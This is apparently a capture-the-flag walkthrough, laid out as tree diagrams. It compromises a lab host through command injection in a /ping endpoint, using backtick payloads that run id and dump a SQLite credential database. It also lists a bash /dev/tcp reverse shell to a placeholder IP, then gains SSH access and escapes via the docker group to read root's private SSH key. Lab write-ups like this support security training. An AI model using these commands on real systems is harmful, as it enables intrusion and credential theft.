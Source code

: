    ```jsx
    Command Injection Discovery
    ├── partners.html
    │   └── GET <http://10.10.43.71:8081/auth?login=admin&password=admin> (fails)
    │
    ├── Discovered /ping endpoint on port 8081
    │   └── Triggered error with no params → reveals Express JS source path
    │
    ├── Hypothesis: uses exec() or system() in JS
    │
    ├── Confirm CMDi via backticks
    │   └── /ping?ip=`id`
    │       → Output: uid=1001 confirms RCE
    
    ```
    
    ```jsx
    CMD Injection Exploitation
    ├── Exploiting CMDi for File Read
    │   └── /ping?ip=`cat utech.db.sqlite`
    │       → Extracted user credential hashes
    │
    ├── Alternative Path (not taken here):
    │   └── Send reverse shell:
    │       → bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
    │       → Establish interactive shell
    
    ```
    
    ```jsx
    SSH Foothold
    ├── Brute-force or cracked credentials from SQLite
    ├── SSH login success
    │   └── ssh user@10.10.43.71
    ├── Shell confirmation
    │   └── whoami, id → uid=1001
    
    ```
    
    ```jsx
    Privilege Escalation - Docker
    ├── id → user in docker group
    │
    ├── Attempt docker escape
    │   ├── docker run -it --rm -v /:/mnt bash
    │   │   → failed or insufficient shell
    │   ├── docker run -v /:/mnt --rm -it bash chroot /mnt sh
    │   │   → chroot into host FS as root
    │
    ├── From inside chroot:
    │   ├── cat /root/.ssh/id_rsa
    │   ├── ssh -i id_rsa root@10.10.43.71
    │   └── FULL ROOT ACCESS
    